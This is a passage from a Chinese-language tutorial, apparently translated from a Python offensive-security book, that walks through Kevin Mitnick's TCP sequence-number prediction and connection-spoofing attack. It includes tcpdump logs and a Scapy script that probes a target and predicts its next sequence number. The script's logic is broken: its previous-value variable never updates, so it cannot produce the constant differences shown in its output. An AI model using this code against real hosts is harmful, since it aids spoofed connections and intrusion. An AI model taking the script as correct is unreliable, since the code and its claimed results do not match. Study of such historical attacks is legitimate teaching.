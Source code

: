 ```py
2022464000:2022464000(0) ack 1382726996 win 4096
14:18:28.811591 apollo.it.luc.edu.995 > x-terminal.shell: R
1382726996:1382726996(0) win 0
<..SNIPPED..> 
```

为了在 Python 中重现，我们将发送 TCP SYN 数据包并等待 TCP SYN-ACK 数据包。一旦收到，我们将从 ACK 中剥离 TCP 序列号并打印到屏幕上。我们进重复 4 次确认一个规律的存在。注意，使用`Scapy`，我们不需要完整的 TCP 和 IP 字段：`Scapy`将用值填充他们。此外，它将从我们默认的源地址发送。我们的新函数`callSYN()`将会接受一个 IP 地址返回写一个 ACK 序列号(当前的序列号加上变化)。

```py
from scapy.all import *
def calTSN(tgt):
    seqNum = 0
    preNum = 0
    diffSeq = 0
    for x in range(1, 5):
        if preNum != 0:
            preNum = seqNum
        pkt = IP(dst=tgt) / TCP()
        ans = sr1(pkt, verbose=0)
        seqNum = ans.getlayer(TCP).seq
        diffSeq = seqNum - preNum
        print '[+] TCP Seq Difference: ' + str(diffSeq)
    return seqNum + diffSeq

tgt = "192.168.1.106"
seqNum = calTSN(tgt)
print "[+] Next TCP Sequence Number to ACK is: "+str(seqNum+1) 
```

运行我们的代码攻击一个脆弱的目标，我们可以看到 TCP 系列号的随机性是不存在的，目标和 Shimomura 的机器有相同的序列号差值。注意，默认情况下，`Scapy`会使用默认的目标 TCP 端口 80。目标必须有一个服务正在监听，不管你尝试欺骗连接那个端口。

```py
mitnick# python calculateTSN.py
[+] TCP Seq Difference: 128000
[+] TCP Seq Difference: 128000
[+] TCP Seq Difference: 128000
[+] TCP Seq Difference: 128000
[+] Next TCP Sequence Number to ACK is: 2024371201 
```

## 欺骗 TCP 连接

有了正确的 TCP 序列号在手，米特尼克可以攻击了。米特尼克使用的序列号是`2024371200`，大约初始化 SYN 后的 150 个 SYN 数据包发送过去用来侦查。首先，它从新的沉默服务器欺骗了一个连接。然后他发送了一个序列号是`2024371201`盲目的 ACK 数据包，表明已经建立了正确的连接。

```py
14:18:36.245045 server.login > x-terminal.shell: S
1382727010:1382727010(0) win 4096
14:18:36.755522 server.login > x-terminal.shell: .ack2024384001 win
4096 
```
